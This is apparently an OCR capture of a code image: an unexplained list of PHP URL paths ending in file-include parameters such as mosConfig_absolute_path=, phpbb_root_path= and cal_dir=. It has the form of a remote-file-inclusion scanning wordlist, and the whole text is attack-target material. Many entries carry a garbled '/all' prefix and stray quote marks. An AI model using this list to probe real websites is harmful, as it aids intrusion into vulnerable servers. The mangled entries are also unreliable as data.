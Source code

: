 /all".php?wPage="
/all".php?y="
/all".php?z="
/all".php?zo="
/all".php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid]=1&GLOBALS=&mosConfig_absolute_path="
/all"/include/init.inc.php?CPG_M_DIR="
/all"/includes/mx_functions_ch.php?phpbb_root_path="
/all"/modules/AllMyGuests/signin.php?_AMGconfig[cfg_serverpath]="
/alladdedit.php?root_dir=
/alladdevent.inc.php?agendax_path=
/alladmin.php?cal_dir=
/allaffich.php?base=
/allalbum_portal.php?phpbb_root_path=
/allcom_extended_registration
/allcontacts.php?cal_dir=
/allconvert-date.php?cal_dir=
/alldefault.php?page=
/alldefault/theme.php?THEME_DIR=
/alldisplayCategory.php?basepath=
/alleditor.php?root=
/allexibir.php?abre=
/allexibir.php?get=
/allexibir.php?lang=
/allexibir.php?p=
/allexibir.php?page=
/allexpanded.php?conf=
/allgrademade/index.php?page=
/allheader.php?systempath=
/allinclude.php?gorumDir=
/allindex.php?a=
/allindex.php?acao=
/allindex.php?action=
/allindex.php?b=
/allindex.php?c=
/allindex.php?cal=
/allindex.php?configFile=
/allindex.php?d=
/allindex.php?directfile=
/allindex.php?e=
/allindex.php?f=
/allindex.php?funcion=
/allindex.php?g=
/allindex.php?gorumdir=
/allindex.php?h=
/allindex.php?i=
/allindex.php?include=
/allindex.php?ir=
/allindex.php?j=
/allindex.php?k=
/allindex.php?l=
/allindex.php?ll=
/allindex.php?lng=../../include/main.inc&G_PATH=
/allindex.php?lnk=
/allindex.php?loc=
/allindex.php?lv1=
/allindex.php?m=
/allindex.php?meio.php=
/allindex.php?middle=
/allindex.php?n=
/allindex.php?o=
/allindex.php?open=
/allindex.php?p=
/allindex.php?page=